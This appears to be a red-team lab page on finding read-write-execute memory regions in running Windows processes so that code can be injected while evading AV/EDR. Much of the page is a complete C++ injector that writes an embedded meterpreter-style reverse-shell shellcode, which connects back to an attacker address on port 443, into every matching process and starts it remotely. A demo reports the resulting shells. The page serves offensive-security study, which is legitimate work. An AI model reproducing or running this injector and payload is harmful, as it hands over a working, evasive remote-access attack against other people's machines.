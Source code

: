 ```yaml
---
description: 'Code Injection, Defense Evasion'
---
```


# Enumerating RWX Protected Memory Regions for Code Injection

Injecting and executing shellcode from a local or target process requires memory where the shellcode could be written to, read from and executed. 

Some shellcode injection techniques allocate `PAGE_EXECUTE_READWRITE` memory block, fill it with shellcode and create a thread pointing to that shellcode. It's not a very common thing for bening applications to do and this is something AV/EDR solutions may punish you for if they catch you doing it.

Some techniques allocate `PAGE_READWRITE` first, write shellcode to the allocated memory, protect it with `PAGE_EXECUTE_READ` and then execute it, which means that at no point in time there's an RWX memory block in the target process. It is a bit stealthier and may help one sneak past AVs/EDRs.

What both techniques have in common is that they still need to **allocate** and **protect** memory \(RW -&gt; RX or RWX\).  Having said that, it is possible to brute-force/enumerate currently running target processes on the compromised system - search through their allocated memory blocks and check if any those are protected with RWX, so we can attempt to write/read/execute them, which may help evade some optics.

## Overview

In this lab I will write a simple program that will:

* Loop through all the processes on the system
* Query each process's memory information
* Loop through all allocated memory blocks in each process
* Check for any memory block that is protected with RWX && is private && is committed
* If the above condition is met
  * Print out address of the memory block
  * Write shellcode to that memory block
* Create a remote thread that points to the shellcode written in the above step

Running the [Code](finding-all-rwx-protected-memory-regions.md#code) with breakpoint set on line 31 will be hit if the conditions on line 27 are met. The conditions we are checking for are: 

```cpp
mbi.AllocationProtect == PAGE_EXECUTE_READWRITE 
&& mbi.State == MEM_COMMIT 
&& mbi.Type == MEM_PRIVATE
```

Once the breakpoint is hit, we can see that the memory region 27c727a0000 is RX protected, is private and commited and now contains our shellcode \(starting with bytes fc 48 83 e4\) :

![](../../.gitbook/assets/image%20%28235%29.png)

If you noticed and were wondering...

> ### Why were we able to WRITE to an RX memory region?
>
> When you call `Write­Process­Memory` and tell it to write to memory that is read-only, the `Write­Process­Memory` succeeds. How can that be?
>
> Because `Write­Process­Memory` tries really hard to please you.
>
> As I noted some time ago, [the primary audience for functions like `Create­Remote­Thread` and `Write­Process­Memory` is debuggers](https://blogs.msdn.microsoft.com/oldnewthing/20120808-00/?p=6913). And when debuggers try to patch memory, it’s often for things like patching in a breakpoint instruction or doing some [edit-and-continue](https://docs.microsoft.com/en-us/visualstudio/debugger/edit-and-continue?view=vs-2015) magic. So the `Write­Process­Memory` tries really hard to get those bytes written. If the page is read-only, `Write­Process­Memory` temporarily changes the permission to read-write, updates the memory, and then restores the original permission.
>
> “No need to thank me, just trying to help.”
>
> There is a race condition if the target process happens to be manipulating the page protection at the same time that `Write­Process­Memory` is. But that’s okay, because the intended audience is debuggers, and debuggers will freeze the target process before trying to edit its memory.
>
> There is no security hole here, because the way the `Write­Process­Memory` function changes the page protection is basically `Virtual­Protect­Ex`, so it will succeed only if you already could have modified the protections yourself anyway. If you didn’t have permission to change the protections, then `Write­Process­Memory`‘s attempt to change the protections would fail too.
>
> Source: [https://devblogs.microsoft.com/oldnewthing/20181206-00/?p=100415](https://devblogs.microsoft.com/oldnewthing/20181206-00/?p=100415)

## Demo

Let's build the program and run it - we can see we got some meterpreter shells.

![](../../.gitbook/assets/memoryenumerationshell.gif)

{% hint style="warning" %}
The below provided code is a dirty POC and may crash certain processes and the Visual Studio banner appearing in the above GIF proves it - the shellcode got injected into Visual Studio \(devenv.exe\) that crashed and restarted itself.
{% endhint %}

## Code

{% tabs %}
{% tab title="rwx-hunter.cpp" %}
```cpp
#include "pch.h"
#include <iostream>
#include <Windows.h>
#include <TlHelp32.h>

int main()
{
	MEMORY_BASIC_INFORMATION mbi = {};
	LPVOID offset = 0;
	HANDLE process = NULL;
	HANDLE snapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
	PROCESSENTRY32 processEntry = {};
	processEntry.dwSize = sizeof(PROCESSENTRY32);
	DWORD bytesWritten = 0;
	unsigned char shellcode[] = "\xfc\x48\x83\xe4\xf0\xe8\xcc\x00\x00\x00\x41\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x48\x8b\x52\x18\x48\x8b\x52\x20\x48\x8b\x72\x50\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2\xed\x52\x41\x51\x48\x8b\x52\x20\x8b\x42\x3c\x48\x01\xd0\x66\x81\x78\x18\x0b\x02\x0f\x85\x72\x00\x00\x00\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x67\x48\x01\xd0\x50\x8b\x48\x18\x44\x8b\x40\x20\x49\x01\xd0\xe3\x56\x48\xff\xc9\x41\x8b\x34\x88\x48\x01\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01\xc1\x38\xe0\x75\xf1\x4c\x03\x4c\x24\x08\x45\x39\xd1\x75\xd8\x58\x44\x8b\x40\x24\x49\x01\xd0\x66\x41\x8b\x0c\x48\x44\x8b\x40\x1c\x49\x01\xd0\x41\x8b\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41\x59\x5a\x48\x8b\x12\xe9\x4b\xff\xff\xff\x5d\x49\xbe\x77\x73\x32\x5f\x33\x32\x00\x00\x41\x56\x49\x89\xe6\x48\x81\xec\xa0\x01\x00\x00\x49\x89\xe5\x49\xbc\x02\x00\x01\xbb\x0a\x00\x00\x05\x41\x54\x49\x89\xe4\x4c\x89\xf1\x41\xba\x4c\x77\x26\x07\xff\xd5\x4c\x89\xea\x68\x01\x01\x00\x00\x59\x41\xba\x29\x80\x6b\x00\xff\xd5\x6a\x0a\x41\x5e\x50\x50\x4d\x31\xc9\x4d\x31\xc0\x48\xff\xc0\x48\x89\xc2\x48\xff\xc0\x48\x89\xc1\x41\xba\xea\x0f\xdf\xe0\xff\xd5\x48\x89\xc7\x6a\x10\x41\x58\x4c\x89\xe2\x48\x89\xf9\x41\xba\x99\xa5\x74\x61\xff\xd5\x85\xc0\x74\x0a\x49\xff\xce\x75\xe5\xe8\x93\x00\x00\x00\x48\x83\xec\x10\x48\x89\xe2\x4d\x31\xc9\x6a\x04\x41\x58\x48\x89\xf9\x41\xba\x02\xd9\xc8\x5f\xff\xd5\x83\xf8\x00\x7e\x55\x48\x83\xc4\x20\x5e\x89\xf6\x6a\x40\x41\x59\x68\x00\x10\x00\x00\x41\x58\x48\x89\xf2\x48\x31\xc9\x41\xba\x58\xa4\x53\xe5\xff\xd5\x48\x89\xc3\x49\x89\xc7\x4d\x31\xc9\x49\x89\xf0\x48\x89\xda\x48\x89\xf9\x41\xba\x02\xd9\xc8\x5f\xff\xd5\x83\xf8\x00\x7d\x28\x58\x41\x57\x59\x68\x00\x40\x00\x00\x41\x58\x6a\x00\x5a\x41\xba\x0b\x2f\x0f\x30\xff\xd5\x57\x59\x41\xba\x75\x6e\x4d\x61\xff\xd5\x49\xff\xce\xe9\x3c\xff\xff\xff\x48\x01\xc3\x48\x29\xc6\x48\x85\xf6\x75\xb4\x41\xff\xe7\x58\x6a\x00\x59\x49\xc7\xc2\xf0\xb5\xa2\x56\xff\xd5";

	Process32First(snapshot, &processEntry);
	while (Process32Next(snapshot, &processEntry))
	{
		process = OpenProcess(MAXIMUM_ALLOWED, false, processEntry.th32ProcessID);
		if (process)
		{
			std::wcout << processEntry.szExeFile << "\n";
			while (VirtualQueryEx(process, offset, &mbi, sizeof(mbi)))
			{
				offset = (LPVOID)((DWORD_PTR)mbi.BaseAddress + mbi.RegionSize);
				if (mbi.AllocationProtect == PAGE_EXECUTE_READWRITE && mbi.State == MEM_COMMIT && mbi.Type == MEM_PRIVATE)
				{
					std::cout << "\tRWX: 0x" << std::hex << mbi.BaseAddress << "\n";
					WriteProcessMemory(process, mbi.BaseAddress, shellcode, sizeof(shellcode), NULL);
					CreateRemoteThread(process, NULL, NULL, (LPTHREAD_START_ROUTINE)mbi.BaseAddress, NULL, NULL, NULL);
				}
			}
			offset = 0;
		}
		CloseHandle(process);
	}

	return 0;
}
```
{% endtab %}
{% endtabs %}

## References

{% embed url="https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualqueryex" %}

